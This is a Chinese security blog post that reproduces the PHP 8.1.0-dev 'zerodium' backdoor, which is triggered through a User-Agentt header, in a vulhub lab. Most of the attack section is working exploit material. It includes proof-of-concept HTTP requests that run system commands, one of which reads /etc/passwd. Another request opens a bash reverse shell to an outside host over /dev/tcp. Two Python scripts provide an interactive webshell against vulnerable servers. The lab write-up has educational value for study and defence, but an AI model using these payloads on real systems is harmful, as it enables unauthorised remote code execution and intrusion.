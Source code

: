 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/bgIzJfT_wcSuxwjtFBjhhQ)

**上方蓝色字体关注我们，一起学安全！**

**作者：****Pet3r****@Timeline Sec  
**

**本文字数：1465**

**阅读时长：3～4min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

PHP verion 8.1.0-dev 于 2021 年 3 月 28 日与后门一起发布，但是后门很快被发现并删除。  

**0x02 漏洞概述**  

  

PHP verion 8.1.0-dev 的 PHP 在服务器上运行，则攻击者可以通过发送 **User-Agentt** 标头执行任意代码。  

**0x03 影响版本**  

  

PHP 8.1.0-dev

**0x04 环境搭建**  

  

使用 vulhub 进行搭建：  

```
cd vulhub/php/8.1-backdoor
sudo docker-compose up -d
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsia2DU8EGK3ITzSRIutkvOCH9wW40HrjXFUbJicDowtsgRJkdIf1pGq4lhwVbAm8lJ9m3q8084ciakrg/640?wx_fmt=png)

访问主页  

```
http://192.168.40.140:8080/
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsia2DU8EGK3ITzSRIutkvOCHBZnr2ibViaADL8LGGjGfXD4209jVcNESiaL0Eu77OwAEhdl6uJ3eyAD1Q/640?wx_fmt=png)  
  

**0x05 漏洞复现**  

  

**1、POC 验证**  

```
GET / HTTP/1.1
Host: 192.168.40.140:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
User-Agentt: zerodiumvar_dump(2*3); //或者User-Agentt: zerodiumsystem("cat /etc/passwd");
Upgrade-Insecure-Requests: 1
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsia2DU8EGK3ITzSRIutkvOCHyI2k95vdpEcF6FRzvos0wAuNLUGawREQtKTUc4GfNuFFjbO1mv1ia8Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsia2DU8EGK3ITzSRIutkvOCHGLsmf45GiaKqaNb1NdynFiclWjRt1PN1R96jicgpPrpBJDfZPkPwNArtw/640?wx_fmt=png)

```
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't access tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:68.0) Gecko/20100101 Firefox/68.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

**2、反弹 shell 或执行 exp**  

```
GET / HTTP/1.1
Host: 192.168.40.140:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ADMINCONSOLESESSION=LBY9g1TYdvw2RyGQCX7JTQGt7Rn6TJnDmWhyJtKwMj2nL0M6GyyY!-1150793974; JSESSIONID=0B07F68800D0F5C0D8BD254A8748E2FF
User-Agentt: zerodiumsystem("bash -c 'exec bash -i >& /dev/tcp/192.168.40.129/6666 0>&1'");
Upgrade-Insecure-Requests: 1
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsia2DU8EGK3ITzSRIutkvOCHpyOEEBlS1dseBu0xGbqu2NIyjKDHVlFzXHeCe0MVktyic6J22wKNoxw/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsia2DU8EGK3ITzSRIutkvOCHsfINHFicQTHqILcoIVpAoYicJu4wHhKOUOuXsWiaNcrDgnEibprDQv3DNA/640?wx_fmt=png)  

EXP：

```
import argparse, textwrap
import requests
import sys
 
 
parser = argparse.ArgumentParser(description="PHP 8.1.0-dev WebShell RCE", formatter_class=argparse.RawTextHelpFormatter,
epilog=textwrap.dedent('''
Exploit Usage :
./exploit.py -l http://127.0.0.1
[^] WebShell= id
OR
[^] WebShell= whoami
'''))                    
 
parser.add_argument("-l","--url", help="PHP 8.1.0-dev Target URL(Example: http://127.0.0.1)")
args = parser.parse_args()
 
if len(sys.argv) <= 2:
    print (f"Exploit Usage: ./exploit.py -h [help] -l [url]")         
    sys.exit() 
 
# Variables
Host = args.url
 
r = requests.session()
 
## Use this for Proxy
#r.proxies.update( { 'http':'http://127.0.0.1:8080' } )
 
def svcheck():
    verify = r.get(f'{Host}')
 
    if (verify.headers['X-Powered-By'] == 'PHP/8.1.0-dev') :
        print("Target is running on PHP 8.1.0-dev\n")
        return True
 
def exec():
    headerscontent = {
            'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:68.0) Gecko/20100101 Firefox/68.0',
            'User-Agentt' : f'zerodiumsystem("{Command}");'
                     }
  
    door = r.get(f'{Host}', headers = headerscontent, allow_redirects= False)
 
    resp = door.text.split("<!DOCTYPE html>")[0]
    if (resp == ""):
        print()
        print("Invalid Command")
        print()  
    else:
        print()
        print(resp)
 
 
if __name__ == "__main__":
 
    print ('\n[+] PHP 8.1.0-dev WebShell RCE \n ')
    try:   
        if svcheck() == True:
            print("*Type the command* \n")
            try:
                while True:
                    Command = input("[^] WebShell= ")
                    exec()
            except:
                print("\r\nExiting.")
                sys.exit(-1)
     
    except Exception as ex:
        print('Invalid URL or Target not Vulnerable')
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsia2DU8EGK3ITzSRIutkvOCHZPacPsDLu3pxlTqLspsLhHJWIfmNQ3cDQfaNpt58Zgsia5CXGkpFnuA/640?wx_fmt=png)  

**0x06 修复方式**  

  

建议参考官方公告及时升级或安装相应补丁。

**参考链接：**

https://news-web.php.net/php.internals/113838

https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor

https://www.php.net/

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章**

Timeline Sec 团队  

安全路上，与你并肩前行